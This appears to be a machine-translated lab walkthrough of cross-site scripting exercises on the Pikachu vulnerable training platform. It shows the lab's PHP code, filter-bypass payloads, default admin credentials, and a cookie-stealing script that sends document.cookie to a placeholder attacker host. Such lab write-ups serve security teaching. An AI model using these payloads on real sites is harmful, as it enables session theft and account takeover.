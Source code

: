 exploit

Enter payload <script>alert('Old iron, Oli!')</script> , observe the injection point, log in to the background as an administrator, and a pop-up window will appear. This is a simple touch typing. The cookie can be obtained through the xss phishing method, and the administrator can be forged to log in.



Background: http://<IP address!!!>/pikachu/vul/xss/xssblind/admin_login.php
Account password: admin 123456
Go to the pikachu platform to manage tools, go in and initialize the platform

Pirate cookie payload <script>document.location = 'http://<xss platform address>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>



Xss filtering
Server-side core code

if(isset($_GET['submit']) && $_GET['message'] != null){
     //Here we will use regex to replace <script with empty, that is, to filter out
     $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message' ]);
     if ($message == 'yes'){
         $html.="<p>Then go to People's Square and sit alone for a while!</p>";
     }else{
         $html.="<p>Don't say these '{$message}' words, don't be afraid, just do it!</p>";
     }

}
The comments here are very clear, so I won’t say much

exploit

After filtering <script , there are still many tags that can be used, and there are still many bypass methods

payload: <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>

payload: <ScrIpT>alert('Old Iron, Oli!')</sCriPt>

htmlspecialchars of xss
Server-side core code

if(isset($_GET['submit'])){
     if(empty($_GET['message'])){
         $html.="<p class='notice'>Enter something!</p>";
     } else {
         //Is it okay to use htmlspecialchars for processing, htmlspecialchars is not processed by default
         $message=htmlspecialchars($_GET['message']);
         $html1.="<p class='notice'>Your input has been recorded:</p>";
         //The input content is processed and output to the value attribute of the input tag, try:'onclick='alert(111)'
// $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block; background-color:#c0c0c0;border-style:none;'/>";
         $html2.="<a href='{$message}'>{$message}</a>";
     }
}
htmlspecialchars(string,flags,character-set,double_encode)

